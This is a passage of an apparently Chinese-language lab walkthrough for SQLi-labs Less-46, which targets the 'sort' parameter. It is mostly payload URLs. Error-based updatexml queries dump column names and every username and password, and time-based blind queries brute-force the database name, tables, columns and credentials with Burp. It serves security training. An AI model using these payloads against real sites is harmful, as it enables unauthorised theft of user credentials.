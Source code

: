 **查看所有字段**<br />http://www.web.com/sql/Less-46/?sort=3 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/20200727105706701.png#crop=0&crop=0&crop=1&crop=1&id=NpU2R&originHeight=90&originWidth=431&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有账户和密码**<br />http://www.web.com/sql/Less-46/?sort=3 and updatexml(1,concat(0x7e,(select group_concat(concat_ws('~',username,password)) from security.users),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/20200727105915676.png#crop=0&crop=0&crop=1&crop=1&id=HWyn8&originHeight=83&originWidth=485&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**使用时间注入**<br />**判断当前数据库名称长度**<br />http://www.web.com/sql/Less-46/?sort=3 and if(length(database())=8,1,sleep(2))--+<br />当等于8时没有时间延时，说明数据库名称长度为8

**判断当前数据库名称**<br />http://www.web.com/sql/Less-46/?sort=3 and if(substr((select database()),1,1)='s',1,sleep(2))--+<br />当等于s时没有时间延时，说明首字母为s

**使用burp爆破出当前库名称**<br />![](https://img-blog.csdnimg.cn/20200727111318521.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=gmZVx&originHeight=313&originWidth=829&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断表名**<br />http://www.web.com/sql/Less-46/?sort=3 and if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e',1,sleep(2))--+<br />使用burp爆破<br />![](https://img-blog.csdnimg.cn/20200727111911631.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=notWN&originHeight=298&originWidth=846&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断字段**<br />http://www.web.com/sql/Less-46/?sort=3 and if(substr((select column_name from information_schema.columns where table_name=‘users’ limit 0,1),1,1)=‘u’,1,sleep(5))–+<br />使用burp爆破<br />![](https://img-blog.csdnimg.cn/20200727112021656.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=FlEZT&originHeight=307&originWidth=855&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断账户（username）**<br />http://www.web.com/sql/Less-46/?sort=3 and if(substr((select username from security.users limit 0,1),1,1)=‘d’,1,sleep(5))–+<br />使用burp爆破<br />![](https://img-blog.csdnimg.cn/20200727112121908.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=xF88I&originHeight=252&originWidth=827&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断密码（password）**<br />http://www.web.com/sql/Less-46/?sort=3 and if(substr((select password from security.users limit 0,1),1,1)=‘d’,1,sleep(5))–+<br />使用burp爆破<br />![](https://img-blog.csdnimg.cn/20200727112212838.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=XcclN&originHeight=252&originWidth=827&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**将username，password一起进行爆破**<br />http://www.web.com/sql/Less-46/?sort=3 and if(substr((select group_concat(username,password) from security.users limit 0,1),1,1)=‘d’,1,sleep(5))–+<br />![](https://img-blog.csdnimg.cn/20200727112238428.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=KgBky&originHeight=281&originWidth=837&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
